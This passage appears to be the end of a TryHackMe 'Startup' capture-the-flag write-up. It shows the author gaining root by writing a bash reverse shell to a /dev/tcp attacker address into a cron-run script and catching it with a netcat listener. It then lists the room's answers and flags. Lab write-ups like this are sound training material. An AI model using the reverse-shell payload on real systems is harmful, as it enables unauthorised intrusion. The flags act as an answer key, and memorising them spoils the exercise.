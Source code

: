 ```
lennie@startup:~$ ls -lA scripts/
total 8
-rwxr-xr-x 1 root root 77 Nov 12 04:53 planner.sh
-rw-r--r-- 1 root root  1 Nov 13 12:55 startup_list.txt
lennie@startup:~$ cat scripts/startup_list.txt 

lennie@startup:~$ cat scripts/planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
lennie@startup:~$ echo $LIST

lennie@startup:~$
```

```bash
#!/bin/bash
/bin/bash -c 'bash -i >& /dev/tcp/10.8.106.222/9002 0>&1'
```

```
kali@kali:~/CTFs/tryhackme/Startup$ nc -lnvp 9002
Listening on 0.0.0.0 9002
Connection received on 10.10.36.184 36364
bash: cannot set terminal process group (1690): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# ls -lA
ls -lA
total 20
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x 2 root root 4096 Nov 12 04:54 .nano
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   38 Nov 12 04:53 root.txt
drwx------ 2 root root 4096 Nov 12 04:50 .ssh
root@startup:~# cat root.txt
cat root.txt
THM{f963aaa6a430f210222158ae15c3d76d}
```

What is the secret spicy soup recipe?

`love`

What are the contents of user.txt?

`THM{03ce3d619b80ccbfb3b7fc81e46c0e79}`

What are the contents of root.txt?

`THM{f963aaa6a430f210222158ae15c3d76d}`

## Task 2 Credits

Spice Hut was very happy with your results and it is guaranteed they will spread word about your excellence with their partners. Astounding work!
